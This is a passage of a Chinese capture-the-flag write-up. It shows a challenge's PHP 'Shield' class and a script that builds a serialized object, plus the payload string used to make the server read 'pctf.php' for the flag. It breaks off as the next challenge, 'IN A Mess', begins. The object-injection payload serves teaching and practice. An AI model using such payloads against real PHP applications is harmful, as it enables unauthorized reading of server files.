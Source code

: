 然后把 `shield.php` base64编码读取

```php
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>

```

分析一波 要求传入 `class` 其内容进行反序列化操作后是一个对象

这个对象要求是 Shield 并且其中的 $file=pctf.php

因此构建代码

```php
<?php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
	}
	$g = new Shield();
	$g -> file = 'pctf.php';

	echo serialize($g);


?>
```

得到字符串 `O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";} ` 

传进去即可



### IN A Mess

个人觉得是一道很好的题目

右键查看源码
